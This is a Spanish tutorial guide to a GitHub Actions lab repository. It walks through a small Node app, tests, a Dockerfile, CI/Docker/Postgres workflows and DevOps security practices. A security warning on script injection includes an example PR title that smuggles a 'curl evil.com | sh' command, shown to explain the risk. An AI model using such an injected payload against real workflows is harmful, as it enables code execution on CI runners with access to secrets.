

# Guía: qué es cada archivo y cómo se conectan

Esta guía explica el proyecto pieza por pieza, de abajo hacia arriba: primero el código, luego cómo se empaqueta, y al final cómo GitHub Actions orquesta todo.

---

## 1. El mapa completo

```
gh-actions-lab/
│
├── package.json          ← manifiesto: nombre, scripts, versión de Node
├── package-lock.json     ← versiones EXACTAS (generado, no se edita a mano)
├── .gitignore            ← qué NO se sube a git
├── Dockerfile            ← receta para empaquetar la app en un contenedor
│
├── src/                  ← la aplicación
│   ├── lib.js            ← lógica pura (funciones)
│   ├── lib.test.js       ← pruebas de esa lógica
│   └── server.js         ← servidor HTTP que expone la lógica
│
├── README.md             ← qué es el proyecto (para quien llega de fuera)
├── GUIA.md               ← este archivo (para ti, aprendiendo)
│
└── .github/workflows/    ← LA AUTOMATIZACIÓN (el corazón del proyecto)
    ├── 01-hola.yml
    ├── 02-ci.yml
    ├── 03-matrix.yml
    ├── 04-postgres.yml
    └── 05-docker.yml
```

Regla mental: **`src/` es el producto, `.github/workflows/` es la fábrica.** Todo lo demás son instrucciones para que la fábrica sepa qué hacer con el producto.

---

## 2. Cómo se conecta todo



La cadena de dependencias real, en palabras:

1. `lib.js` define funciones. **No sabe nada de HTTP ni de red.**
2. `lib.test.js` importa `lib.js` y verifica que las funciones hacen lo prometido.
3. `server.js` importa `lib.js` y la expone por HTTP.
4. `package.json` define el comando `npm test`, que ejecuta `lib.test.js`.
5. `Dockerfile` mete `src/` + dependencias en una imagen ejecutable.
6. Los **workflows** ejecutan 4 y 5 automáticamente cada vez que tocas el repo.

---

## 3. El código de la app

### `src/lib.js` — la lógica pura

```js
export function sum(a, b) {
  if (!Number.isFinite(a) || !Number.isFinite(b)) {
    throw new TypeError('sum() espera dos numeros finitos');
  }
  return a + b;
}
```

**¿Por qué separar esto en su propio archivo?** Porque es *pura*: mismas entradas → misma salida, sin tocar red, disco ni base de datos. Eso la hace **trivial de testear** — no necesitas levantar nada.

Es el patrón que vas a ver en todo proyecto serio: la lógica de negocio vive aislada, y la capa HTTP/DB solo la envuelve. Cuando el CI tarda 7 segundos en vez de 5 minutos, normalmente es porque alguien hizo esta separación.

`Number.isFinite` en vez de `typeof x === 'number'` es a propósito: `NaN` **es** de tipo number, pero no es un número usable. Rechazarlo explícitamente evita que un `undefined` se propague silenciosamente como `NaN` por todo el sistema.

```js
export function slugify(text) {
  return String(text)
    .normalize('NFD')                                    // 1
    .replace(new RegExp('[\\u0300-\\u036f]', 'g'), '')   // 2
    .toLowerCase()                                       // 3
    .trim()
    .replace(/[^a-z0-9]+/g, '-')                         // 4
    .replace(/^-+|-+$/g, '');                            // 5
}
```

Convierte `"Canción de Ñoño"` → `"cancion-de-nono"`. Paso a paso:

1. **`normalize('NFD')`** separa la letra de su acento. La `ó` deja de ser un carácter y pasa a ser dos: `o` + `´`.
2. El regex borra el rango Unicode `U+0300–U+036F`, que son exactamente los acentos sueltos. Queda `o`.
3. Todo a minúsculas.
4. Cualquier cosa que no sea letra o número → guion. El `+` es clave: colapsa `---` en un solo `-`.
5. Quita guiones sobrantes al inicio y al final.

> **Detalle de mantenimiento:** ese regex está escrito como `new RegExp('[\\u0300-\\u036f]', 'g')` en vez de `/[̀-ͯ]/g` porque escribir caracteres Unicode invisibles directo en el archivo es frágil — se corrompen al copiar/pegar entre editores y sistemas. Preferir la forma escapada es una decisión de robustez, no de estilo.

### `src/lib.test.js` — las pruebas

```js
import test from 'node:test';
import assert from 'node:assert/strict';
import { sum, slugify } from './lib.js';

test('sum suma dos enteros', () => {
  assert.equal(sum(2, 3), 5);
});
```

Usamos el **test runner nativo de Node** (`node:test`), no Jest ni Vitest. ¿Por qué?

| | Con Jest/Vitest | Con `node:test` |
|---|---|---|
| Dependencias | ~300 paquetes | **0** |
| `npm ci` en CI | 20-40 s | **~2 s** |
| Configuración | `jest.config.js` | ninguna |

En un laboratorio para aprender Actions, no quieres que el 80% del tiempo del pipeline sea instalar dependencias que no tienen nada que ver con lo que estás aprendiendo. En un proyecto real la decisión puede ser distinta (Jest tiene mocking, snapshots, etc.), pero **el runner nativo cubre más de lo que la gente cree**.

`assert/strict` (en vez de `assert` normal) usa comparación estricta: `assert.equal('5', 5)` **falla**. Es lo que quieres — las comparaciones laxas esconden bugs de tipos.

Los 5 tests cubren tres categorías, y esto también es un estándar:

- **Camino feliz** — `sum(2,3) === 5`
- **Casos borde** — negativos, decimales, separadores repetidos
- **Errores esperados** — `assert.throws(() => sum('2', 3), TypeError)`

Un test suite que solo prueba el camino feliz da una falsa sensación de seguridad. Los bugs viven en los bordes.

### `src/server.js` — la capa HTTP

```js
export const server = createServer((req, res) => {
  const url = new URL(req.url, `http://${req.headers.host ?? 'localhost'}`);

  if (url.pathname === '/health') {
    return json(res, 200, { status: 'ok', version: process.env.APP_VERSION ?? 'dev' });
  }
  ...
});
```

Tres endpoints:

| Ruta | Para qué |
|---|---|
| `/health` | **El más importante para DevOps.** No hace nada útil para el usuario. |
| `/api/sum?a=2&b=3` | Expone `sum()` |
| `/api/slug?text=Hola` | Expone `slugify()` |

**Por qué `/health` es el endpoint más importante del archivo.** Es el que responde a la pregunta *"¿esta instancia está viva?"*. Lo consultan:

- El `HEALTHCHECK` del Dockerfile → Docker reinicia el contenedor si deja de responder.
- El smoke test de `02-ci.yml` → el CI sabe cuándo el server terminó de arrancar.
- El paso final de `05-docker.yml` → verifica que la imagen publicada realmente funciona.
- En producción: el load balancer, que deja de mandarle tráfico si falla.

Sin health check, un deploy "exitoso" puede dejar una app muerta recibiendo tráfico. **Es el requisito mínimo de cualquier servicio desplegable.**

```js
if (process.argv[1]?.endsWith('server.js')) {
  server.listen(PORT, ...);
}
```

Esta guarda es un detalle fino: hace que el archivo se pueda **importar sin arrancar el servidor**. Si mañana escribes tests que importan `server` para probarlo con `supertest`, no quieres que el solo hecho de importarlo ocupe el puerto 3000. Exportar la app y arrancarla condicionalmente es el patrón estándar.

---

## 4. Los archivos de configuración

### `package.json`

```json
{
  "type": "module",
  "engines": { "node": ">=20" },
  "scripts": {
    "start": "node src/server.js",
    "test": "node --test",
    "test:coverage": "node --test --experimental-test-coverage"
  }
}
```

- **`"type": "module"`** → habilita `import`/`export` (ESM) en vez de `require` (CommonJS). Sin esto, los `import` de `lib.js` fallan.
- **`"engines"`** → documenta la versión mínima. Explica por qué la matriz de la lección 3 prueba Node 20, 22 y 24: **son las versiones que prometes soportar**. Prometer soporte sin probarlo es una mentira que se descubre en producción.
- **`scripts`** → la interfaz entre tu código y cualquier herramienta externa. El workflow **nunca** llama a `node --test` directo; llama a `npm test`. Así, el día que migres a Vitest, cambias una línea en `package.json` y los 5 workflows siguen funcionando sin tocarse.

> `node --test` sin argumentos descubre solo los archivos `*.test.js`. Al principio lo escribí como `node --test src/` y **falló**, porque Node interpretó `src/` como un archivo a ejecutar, no como un directorio a escanear. Detalle pequeño, pero es el tipo de cosa que solo aprendes ejecutándolo.

### `package-lock.json`

Generado automáticamente. **Nunca se edita a mano, pero SÍ se sube a git.** Guarda la versión exacta de cada dependencia y sus dependencias transitivas.

Es lo que hace posible `npm ci`, y lo que garantiza que la build de hoy instale exactamente lo mismo que la de hace tres meses. Sin lockfile no hay builds reproducibles, y sin builds reproducibles no hay DevOps — solo esperanza.

### `.gitignore`

```
node_modules/     ← se reconstruye con npm ci, pesa cientos de MB
*.log
server.pid        ← generado por el smoke test
resultado.txt     ← generado por la lección 3
.env              ← ¡SECRETOS! nunca al repo
```

La línea de `.env` es la importante. Los secretos van en **GitHub Secrets**, nunca en el repo. Un secreto commiteado sigue en el historial de git aunque lo borres después — hay que rotarlo, no basta con eliminarlo.

### `Dockerfile`

```dockerfile
FROM node:22-alpine
WORKDIR /app

COPY package*.json ./      # ① primero solo los manifiestos
RUN npm ci --omit=dev      # ② instalar

COPY src ./src             # ③ después el código

ENV PORT=3000
EXPOSE 3000

HEALTHCHECK --interval=10s --timeout=3s --retries=3 \
  CMD wget -qO- http://localhost:3000/health || exit 1

USER node
CMD ["node", "src/server.js"]
```

**El orden de ①②③ no es casual — es la optimización más importante de Docker.**

Cada instrucción crea una capa cacheada. Si una capa cambia, todas las siguientes se reconstruyen. Como el código cambia mucho más seguido que las dependencias, copiamos primero `package*.json`: mientras no toques las dependencias, Docker **reusa** la capa del `npm ci` y la build tarda segundos en vez de minutos.

Si hicieras `COPY . .` antes del `npm ci`, reinstalarías todo con cada cambio de una coma. Es el error de Dockerfile más común que existe.

Lo demás:

- **`alpine`** → imagen base mínima (~50 MB vs ~1 GB). Menos peso, menos superficie de ataque.
- **`--omit=dev`** → no metas herramientas de desarrollo en la imagen de producción.
- **`HEALTHCHECK`** → Docker consulta `/health` cada 10s y marca el contenedor como *unhealthy* si falla 3 veces.
- **`USER node`** → **crítico en seguridad.** Por defecto los contenedores corren como `root`. Si alguien explota tu app, es root dentro del contenedor. Cambiar a un usuario sin privilegios es un control básico que aparece en toda auditoría.
- **`CMD ["node", ...]`** en formato array (*exec form*) y no `CMD node ...` (*shell form*): así el proceso de Node es PID 1 y recibe la señal `SIGTERM` cuando Docker quiere detenerlo, permitiendo un apagado limpio. Con la forma shell, la señal se la come `/bin/sh` y el contenedor muere a la fuerza a los 10 segundos.

---

## 5. Los workflows, uno por uno

### Vocabulario mínimo

```
workflow      un archivo .yml en .github/workflows/
 └─ job       una MÁQUINA VIRTUAL nueva y vacía
     └─ step  un comando (run) o una acción de terceros (uses)
```

**Lo que más confunde al principio:** cada *job* corre en una VM distinta y aislada. No comparten disco. Por eso `02-ci.yml` repite `checkout` + `setup-node` + `npm ci` en el job `smoke`, aunque el job `test` ya lo hizo. Para pasar archivos entre jobs hace falta *artifacts* (lección 3).

Los *steps*, en cambio, sí comparten la misma VM: el paso 3 ve lo que creó el paso 2.

### `01-hola.yml` — anatomía

No hace nada útil a propósito. Existe para que veas las piezas sin ruido.

```yaml
on:
  workflow_dispatch:
    inputs:
      entorno:
        type: choice
        options: [dev, staging, prod]
```

`workflow_dispatch` = botón manual en la pestaña Actions, con formulario. En proyectos reales es lo que usas para deploys y rollbacks.

**Outputs entre steps** — cómo un paso le pasa datos al siguiente:

```yaml
- name: Generar un output
  id: meta                                        # ① ponerle id
  run: echo "fecha=$(date -u +%F)" >> "$GITHUB_OUTPUT"   # ② escribir al archivo especial

- run: echo "${{ steps.meta.outputs.fecha }}"     # ③ leerlo
```

`$GITHUB_OUTPUT` es un archivo que el runner lee al terminar cada step. **No puedes usar variables de shell normales entre steps** — cada `run:` es una shell nueva y `export MIVAR=x` se pierde. Este mecanismo (y su primo `$GITHUB_ENV`) es la única forma de comunicar pasos.

**Expresiones y contextos:**

```yaml
- if: inputs.entorno == 'prod'
  run: echo "desplegando..."
```

Todo lo que va entre `${{ }}` lo evalúa GitHub **antes** de ejecutar. Los contextos disponibles: `github` (repo, rama, SHA, actor), `runner` (SO), `inputs`, `secrets`, `steps`, `needs`, `matrix`.

> **Trampa de seguridad importante:** nunca interpoles `${{ github.event.pull_request.title }}` (o cualquier texto que escriba un usuario) dentro de un `run:`. GitHub lo sustituye como texto plano *antes* de ejecutar la shell, así que un título de PR como `"; curl evil.com | sh; #` se ejecuta. Se llama **script injection**, y se evita pasando el valor por `env:` y leyéndolo como `"$VARIABLE"`.

### `02-ci.yml` — el que vas a copiar siempre

```yaml
on:
  push:
    branches: [main]
  pull_request:
```

`pull_request` es el que de verdad protege: corre **antes** del merge. `push: branches: [main]` corre sobre lo ya aceptado.

Fíjate en lo que **no** está: `push` sin filtro de ramas. Si lo dejas abierto teniendo también `pull_request`, cada commit en una rama con PR abierto dispara **dos runs idénticos**. Doble gasto, cero beneficio.

```yaml
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true
```

Haces 3 pushes seguidos arreglando un typo → los 2 primeros runs se cancelan solos. El `group` define la regla: *un run vivo por workflow y por rama*.

> En workflows de **deploy a producción** esto va al revés (`cancel-in-progress: false`). Cancelar tests es gratis; cancelar un despliegue a la mitad deja el sistema en estado indefinido.

```yaml
permissions:
  contents: read
```

Cada job recibe un `GITHUB_TOKEN` automático que muere al terminar el run. Declararlo `read` arriba y ampliarlo solo donde hace falta es **menor privilegio**. Es lo mismo que te bloqueó el primer push: el scope `workflow` existe justo porque un workflow es código que GitHub ejecuta con tus credenciales.

```yaml
- uses: actions/checkout@v5
```

**Siempre el primer step.** El runner arranca vacío; GitHub no clona tu código solo. Sin esto, `npm ci` falla porque no hay `package.json`. Es el error #1 de quien empieza.

El `@v5` es una versión fijada. **Nunca uses `@main`**: significa "ejecuta lo que sea que haya ahí hoy", y si esa action se compromete, corre código hostil con tus secrets. En entornos regulados se fija el SHA completo del commit.

```yaml
- uses: actions/setup-node@v5
  with:
    node-version: 22
    cache: npm        # ← cachea ~/.npm entre runs
```

```yaml
- run: npm ci
```

| | `npm install` | `npm ci` |
|---|---|---|
| Lockfile | lo puede modificar | lo respeta exacto |
| Si `package.json` y el lock discrepan | lo "arregla" callado | **falla** |
| `node_modules` previo | lo actualiza | lo borra y reinstala |

En CI siempre `ci`. Quieres builds reproducibles: si hoy instala versiones distintas a las de ayer sin que nadie cambiara nada, perdiste la trazabilidad.

**El job `smoke`** — la parte más instructiva:

```yaml
needs: test     # no arranca hasta que 'test' pase en verde
```

```yaml
- name: Arrancar el servidor
  run: |
    npm start &
    echo $! > server.pid

- name: Esperar a que este listo
  run: |
    for i in $(seq 1 20); do
      if curl -sf http://localhost:3000/health > /dev/null; then exit 0; fi
      sleep 1
    done
    exit 1
```

Ese bucle es **polling con timeout**, y es el patrón correcto. La alternativa perezosa es `sleep 5`, que o desperdicia tiempo o falla intermitentemente cuando el runner va lento. Los tests que fallan 1 de cada 20 veces ("flaky") destruyen la confianza en el pipeline más rápido que un test que siempre falla.

```yaml
- name: Apagar el servidor
  if: always()
  run: kill "$(cat server.pid)" || true
```

`if: always()` hace que corra **aunque los pasos anteriores hayan fallado**. Es la limpieza garantizada. Aquí no importa mucho (la VM se destruye igual), pero el patrón es vital cuando el pipeline crea recursos reales que cuestan dinero — una instancia EC2, una base de datos temporal.

**Diferencia clave: unit test vs smoke test.** El job `test` verifica que las funciones calculan bien. El job `smoke` verifica que la aplicación **arranca y sirve tráfico**. Un suite de tests en verde sobre una app que no levanta es el clásico "en mi máquina funciona".

### `03-matrix.yml` — probar muchas combinaciones

```yaml
strategy:
  fail-fast: false
  matrix:
    node: [20, 22, 24]
    os: [ubuntu-latest, windows-latest]
    exclude:
      - os: windows-latest
        node: 20
    include:
      - os: ubuntu-latest
        node: 22
        principal: true
```

3 versiones × 2 sistemas = 6 combinaciones, **en paralelo**, menos la excluida = 5 jobs.

- **`fail-fast: false`** → si una falla, las demás siguen. Ves *todos* los fallos de una vez en vez de descubrirlos de a uno. Con `true` (el default), un fallo en Node 20 cancela las otras 4 y no sabes si el problema es de esa versión o de todas.
- **`exclude`** → quita combinaciones del producto cartesiano.
- **`include`** → agrega combinaciones extra, o **agrega campos** a combinaciones existentes. Aquí marca una como `principal: true`.

¿Para qué el `principal`? Para esto:

```yaml
- if: matrix.principal
  uses: actions/upload-artifact@v4
  with:
    name: reporte-tests
```

Sin esa guarda, las 5 combinaciones intentarían subir un artifact con el mismo nombre y chocarían. Solo una lo sube.

**Artifacts = la única forma de pasar archivos entre jobs.** Recuerda que cada job es una VM distinta:

```yaml
# job A
- uses: actions/upload-artifact@v4
  with: { name: reporte-tests, path: resultado.txt }

# job B
- uses: actions/download-artifact@v4
  with: { name: reporte-tests }
```

También sirven para depurar: cuando un test falla en CI y no puedes reproducirlo local, subes los logs, capturas de pantalla o el reporte y los descargas desde la web del run.

```yaml
publicar:
  needs: test
  if: always()
  run: echo "Estado: ${{ needs.test.result }}"
```

`needs.<job>.result` te da `success`, `failure`, `cancelled` o `skipped`. Combinado con `if: always()`, es el patrón para un job final que **siempre** reporta — el que mandaría la notificación a Slack pase lo que pase.

### `04-postgres.yml` — servicios auxiliares

```yaml
services:
  postgres:
    image: postgres:16-alpine
    env:
      POSTGRES_USER: lab
      POSTGRES_PASSWORD: lab
    ports: [5432:5432]
    options: >-
      --health-cmd "pg_isready -U lab"
      --health-interval 5s
      --health-retries 10
```

GitHub levanta estos contenedores **antes** de los steps, los expone en `localhost`, y los destruye al terminar el job. Te da una base de datos real, limpia, en cada ejecución.

**El `--health-cmd` no es opcional.** Sin él, el job arranca en cuanto el contenedor existe — pero Postgres tarda un par de segundos más en aceptar conexiones. Resultado: falla 1 de cada 5 veces, sin patrón aparente. **Es el error #1 con `services`**, y produce exactamente esos pipelines "flaky" que nadie se cree.

Es la misma idea del bucle de espera en `02-ci.yml`: *nunca asumas que un servicio está listo porque el proceso arrancó*.

Sobre la contraseña en texto plano: aquí es aceptable porque es una base efímera que vive 40 segundos dentro de una VM aislada y muere con el job. En un caso real usarías `${{ secrets.PG_PASSWORD }}`.

> **Nota YAML:** el `>-` de `options` es un *folded scalar*: junta las líneas siguientes en una sola separada por espacios, y el `-` quita el salto final. Sirve para escribir un comando largo de forma legible. Compara con `|`, que **conserva** los saltos de línea — ese se usa para scripts de varias líneas.

### `05-docker.yml` — construir y publicar

```yaml
permissions:
  contents: read
  packages: write     # ← solo este job puede publicar
```

```yaml
- uses: docker/login-action@v3
  if: github.event_name != 'pull_request'
  with:
    registry: ghcr.io
    username: ${{ github.actor }}
    password: ${{ secrets.GITHUB_TOKEN }}   # ← no lo creaste tú
```

`secrets.GITHUB_TOKEN` lo genera GitHub automáticamente para cada run y expira al terminar. **Cero secretos que administrar o rotar** para publicar en tu propio registry.

**El `if` es una decisión de seguridad, no una optimización.** En un PR sí construimos la imagen (para verificar que el Dockerfile compila), pero **no la publicamos**. Si publicaras desde PRs, cualquiera que abra un pull request en tu repo público podría empujar una imagen a tu registry.

```yaml
- uses: docker/metadata-action@v5
  with:
    tags: |
      type=ref,event=branch
      type=semver,pattern={{version}}
      type=sha,prefix=sha-
```

Esto generó, en tu primer push:

```
ghcr.io/revkelo/gh-actions-lab:main          ← se MUEVE con cada push
ghcr.io/revkelo/gh-actions-lab:sha-76a5b82   ← INMUTABLE, ese commit exacto
```

**Los dos apuntan hoy a la misma imagen pero cumplen funciones opuestas, y esto es fundamental.** Cuando algo explote en producción a las 3am, `:main` no te dice qué está corriendo — cambió tres veces desde el deploy. El tag por SHA sí, y te permite hacer rollback a un punto exacto. Por eso los despliegues serios **nunca** referencian tags móviles.

Si algún día haces `git tag v1.0.0`, la misma configuración genera `:1.0.0`, `:1.0` y `:latest` sin tocar nada.

```yaml
- uses: docker/build-push-action@v6
  with:
    cache-from: type=gha
    cache-to: type=gha,mode=max
```

Guarda las capas de Docker en el almacenamiento de Actions. La primera build tardó 47s; las siguientes, sin cambios en dependencias, bajan a unos pocos segundos. `mode=max` cachea también las capas intermedias.

```yaml
- name: Probar la imagen recien construida
  run: |
    docker run -d --name lab -p 3000:3000 "$IMG"
    sleep 3
    curl -sf http://localhost:3000/health | grep '"status":"ok"'
```

**El paso que casi nadie escribe.** "La imagen se construyó" no significa "la imagen funciona": puede compilar perfecto y morir al arrancar por una variable de entorno faltante o un `CMD` mal escrito. Esto lo arranca de verdad y confirma que responde. Es la diferencia entre verificar el *artefacto* y verificar el *empaquetado*.

---

## 6. Estándares DevOps que este repo ya cumple

| Principio | Dónde está |
|---|---|
| **Builds reproducibles** | `package-lock.json` + `npm ci` |
| **Menor privilegio** | `permissions:` por job, `USER node` en Docker |
| **Fail fast** | El CI corre en cada PR, antes del merge |
| **Artefactos inmutables** | Tag `sha-<commit>` para rollback exacto |
| **Health checks** | `/health` usado por Docker, CI y (a futuro) el balanceador |
| **Verificar lo que se despliega** | El paso que arranca la imagen publicada |
| **Todo como código** | Cero configuración por clics; todo versionado en git |
| **Compatibilidad probada** | La matriz prueba las versiones que `engines` promete |
| **Secretos fuera del repo** | `.env` en `.gitignore`, `GITHUB_TOKEN` efímero |
| **Trazabilidad** | Cada imagen se puede rastrear a su commit exacto |

### Lo que todavía falta (el roadmap)

- **Análisis estático** → SonarCloud (lección 6, en camino)
- **Escaneo de vulnerabilidades** → Trivy sobre la imagen, CodeQL sobre el código
- **Dependencias al día** → Dependabot (ya apareció el warning de Node 20 deprecado)
- **Branch protection** → que `main` exija los checks en verde antes de mergear
- **Entornos con aprobación** → GitHub Environments con revisores para prod
- **Observabilidad** → Grafana + Prometheus
- **Infraestructura como código** → Terraform

---

## 7. Trampas de YAML

```yaml
# 1. TABS = error de parseo. Solo espacios, siempre 2 por nivel.

# 2. Valores que NO son lo que parecen:
valor: on          # -> true (booleano)
valor: no          # -> false
valor: yes         # -> true
version: 3.10      # -> el número 3.1, ¡se comió el cero!
version: "3.10"    # -> string correcto

# 3. Dos puntos dentro de un texto sin comillas rompen el parseo:
run: echo Error: algo fallo      # MAL, YAML ve una clave nueva
run: "echo Error: algo fallo"    # BIEN

# 4. Multilínea: | conserva saltos, > los colapsa
script: |
  linea 1
  linea 2          # dos líneas de verdad
options: >-
  --flag-uno
  --flag-dos       # una sola línea: "--flag-uno --flag-dos"

# 5. Listas: dos sintaxis, misma cosa
node: [20, 22, 24]
node:
  - 20
  - 22
```

El punto 2 es el que más duele en la práctica: `node-version: 3.10` te instala la 3.1. Ante la duda, **comilla las versiones**.

---

## 8. Cómo seguir

1. **Ejecuta `01-hola.yml` a mano** — Actions → *01 - Hola Actions* → *Run workflow*. Cambia los inputs y observa la salida y el summary.
2. **Abre un PR** — ahí se disparan las lecciones 2, 3 y 4 juntas. Mira los checks aparecer en el PR.
3. **Rompe algo a propósito** — cambia un `assert` para que falle y abre otro PR. Aprender a leer un run rojo es la mitad del trabajo.
4. **Haz un tag** — `git tag v1.0.0 && git push --tags` y observa los tags semver que genera la lección 5.
5. **Los ejercicios del README.**

Cuando esto te salga natural, aplica las lecciones 2 y 4 al CI de `autoreel` (hoy no ejecuta Playwright ni construye sus Dockerfiles), y sigue con Jenkins → Grafana → AWS.
